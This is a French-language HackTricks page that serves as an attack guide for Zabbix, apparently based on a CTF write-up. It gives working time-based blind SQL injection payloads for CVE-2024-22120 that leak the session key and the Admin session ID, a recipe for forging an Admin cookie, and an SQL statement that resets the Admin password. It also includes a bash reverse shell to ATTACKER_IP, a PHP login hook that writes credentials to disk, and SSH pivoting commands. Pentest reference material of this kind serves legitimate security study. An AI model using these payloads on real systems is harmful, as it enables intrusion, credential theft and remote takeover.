 # Sécurité de Zabbix

{{#include ../../banners/hacktricks-training.md}}

## Aperçu

Zabbix est une plateforme de monitoring exposant une web UI (typiquement derrière Apache/Nginx) et un composant serveur qui communique aussi via le protocole Zabbix sur TCP/10051 (server/trapper) et un agent sur TCP/10050. Lors des engagements vous pouvez rencontrer :

- Web UI: hôte virtuel HTTP(S) comme zabbix.example.tld
- Port du serveur Zabbix: 10051/tcp (JSON over a ZBXD header framing)
- Port de l'agent Zabbix: 10050/tcp

Format utile du cookie : zbx_session est le Base64 d'un objet JSON compact qui inclut au minimum sessionid, serverCheckResult, serverCheckTime et sign. Le sign est un HMAC du payload JSON.

## zbx_session cookie internals

Les versions récentes de Zabbix calculent le cookie comme suit :

- data JSON: {"sessionid":"<32-hex>","serverCheckResult":true,"serverCheckTime":<unix_ts>}
- sign: HMAC-SHA256(key=session_key, data=JSON string of data sorted by keys and compact separators)
- Cookie final: Base64(JSON_with_sign)

Si vous pouvez récupérer le session_key global et un sessionid Admin valide, vous pouvez forger un cookie Admin valide hors-ligne et vous authentifier à l'UI.

## CVE-2024-22120 — Time-based blind SQLi dans le journal d'audit de Zabbix Server

Versions affectées (d'après la documentation publique) :

- 6.0.0–6.0.27, 6.4.0–6.4.12, 7.0.0alpha1

Résumé de la vulnérabilité :

- Lorsqu'une exécution de Script est enregistrée dans le journal d'audit de Zabbix Server, le champ clientip n'est pas assaini et est concaténé dans le SQL, permettant une time-based blind SQLi via le composant serveur.
- Cela est exploitable en envoyant une requête "command" spécialement construite au port 10051 du serveur Zabbix avec un sessionid valide à faible privilège, un hostid accessible par l'utilisateur, et un scriptid autorisé.

Conditions préalables et conseils de découverte :

- sessionid : depuis guest/login dans la web UI, décodez zbx_session (Base64) pour obtenir le sessionid.
- hostid : observez via les requêtes de la web UI (p.ex., Monitoring → Hosts) ou interceptez avec un proxy ; la valeur par défaut courante est 10084.
- scriptid : seuls les scripts permis au rôle courant s'exécuteront ; vérifiez en inspectant le menu des scripts / les réponses AJAX. Des valeurs par défaut comme 1 ou 2 sont souvent autorisées ; 3 peut être refusé.

### Flux d'exploitation

1) Déclencher l'insertion d'audit avec une SQLi dans clientip

- Connectez-vous à TCP/10051 et envoyez un message encadré Zabbix avec request="command" incluant sid, hostid, scriptid, et clientip défini sur une expression SQL qui sera concaténée par le serveur et évaluée.

Champs minimaux du message (corps JSON) :
```json
{
"request": "command",
"sid": "<low-priv-sessionid>",
"scriptid": "1",
"clientip": "' + (SQL_PAYLOAD) + '",
"hostid": "10084"
}
```
Le format wire complet est : "ZBXD\x01" + 8-byte little-endian length + UTF-8 JSON. Vous pouvez utiliser pwntools ou votre propre code socket pour le formater.

2) Time-bruteforce secrets via conditional sleep

Utilisez des expressions conditionnelles pour leak des secrets encodés en hex un caractère à la fois en mesurant le temps de réponse. Exemples qui ont fonctionné en pratique :

- Leak global session_key from config:
```sql
(select CASE WHEN (ascii(substr((select session_key from config),{pos},1))={ord}) THEN sleep({T_TRUE}) ELSE sleep({T_FALSE}) END)
```
- Leak Admin session_id (userid=1) à partir de sessions:
```sql
(select CASE WHEN (ascii(substr((select sessionid from sessions where userid=1 limit 1),{pos},1))={ord}) THEN sleep({T_TRUE}) ELSE sleep({T_FALSE}) END)
```
Notes :

- charset : 32 hex caractères [0-9a-f]
- Choisir T_TRUE >> T_FALSE (par ex., 10 vs 1) et mesurer le temps réel par tentative
- Assurez-vous que votre scriptid est réellement autorisé pour l’utilisateur ; sinon aucune entrée d'audit n’est produite et la mesure ne fonctionnera pas

3) Forger le cookie Admin

Une fois que vous avez :

- session_key : 32-hex provenant de config.session_key
- admin_sessionid : 32-hex provenant de sessions.sessionid pour userid=1

Calculer :

- sign = HMAC_SHA256(key=session_key, data=json.dumps({sessionid, serverCheckResult:true, serverCheckTime:now}, sort by key, compact))
- zbx_session = Base64(JSON_with_sign)

Définissez le cookie zbx_session sur cette valeur et effectuez un GET /zabbix.php?action=dashboard.view pour valider l’accès Admin.

### Outils prêts à l'emploi

- Public PoC automatise : bruteforce de session_key et admin sessionid, et falsification du cookie ; nécessite pwntools et requests.
- Les paramètres à fournir incluent typiquement : --ip (FQDN de l'UI), --port 10051, --sid (low-priv), --hostid, et optionnellement un --admin-sid connu pour éviter le bruteforce.

## RCE via Script execution (post-Admin)

Avec un accès Admin dans l'UI, vous pouvez exécuter des Scripts prédéfinis contre des hôtes monitorés. Si les agents/hôtes exécutent localement les commandes de script, cela donne une exécution de code sur ces systèmes (souvent en tant qu'utilisateur zabbix sur les hôtes Linux) :

- Vérification rapide : exécutez id pour confirmer le contexte utilisateur
- Exemple de reverse shell :
```bash
bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1'
```
Passage à un TTY complet (Linux) :
```bash
script /dev/null -c bash
# background with Ctrl+Z, then on attacker terminal:
stty raw -echo; fg
reset
```
Si vous avez DB access, une alternative à forging a cookie est de réinitialiser le mot de passe Admin au bcrypt documenté pour "zabbix":
```sql
UPDATE users SET passwd='$2a$10$ZXIvHAEP2ZM.dLXTm6uPHOMVlARXX7cqjbhM6Fn0cANzkCQBWpMrS' WHERE username='Admin';
```
## Credential capture via login hook (post-exploitation)

Si l'écriture de fichiers est possible sur le serveur web UI, vous pouvez ajouter temporairement un extrait de logging dans /usr/share/zabbix/index.php autour de la branche de connexion par formulaire pour capturer les credentials:
```php
// login via form
if (hasRequest('enter') && CWebUser::login(getRequest('name', ZBX_GUEST_USER), getRequest('password', ''))) {
$user = $_POST['name'] ?? '??';
$password = $_POST['password'] ?? '??';
$f = fopen('/dev/shm/creds.txt','a+'); fputs($f, "$user:$password\n"); fclose($f);
CSessionHelper::set('sessionid', CWebUser::$data['sessionid']);
}
```
Les utilisateurs s'authentifient normalement; lire /dev/shm/creds.txt ensuite. Supprimer le hook une fois terminé.

## Pivoting to internal services

Même si le shell du compte de service est /usr/sbin/nologin, ajouter une entrée authorized_keys SSH et utiliser -N -L permet le local port-forwarding vers des services accessibles uniquement depuis loopback (par ex., CI/CD sur le port 8111) :
```bash
ssh -i key user@host -N -L 8111:127.0.0.1:8111
```
Voir plus de modèles de tunneling : Check [Tunneling and Port Forwarding](../../generic-hacking/tunneling-and-port-forwarding.md).

## Conseils opérationnels

- Valider que scriptid est autorisé pour le rôle actuel (guest peut avoir un ensemble limité)
- Le Timing brute peut être lent ; mettre en cache la sessionid admin récupérée et la réutiliser
- Le JSON envoyé à 10051 doit être encadré par l'en-tête ZBXD\x01 et une longueur little-endian

## Références

- [HTB Watcher — Zabbix CVE-2024-22120 to Admin/RCE and TeamCity root pivot](https://0xdf.gitlab.io/2025/10/09/htb-watcher.html)
- [CVE-2024-22120-RCE toolkit (PoC scripts)](https://github.com/W01fh4cker/CVE-2024-22120-RCE)

{{#include ../../banners/hacktricks-training.md}}
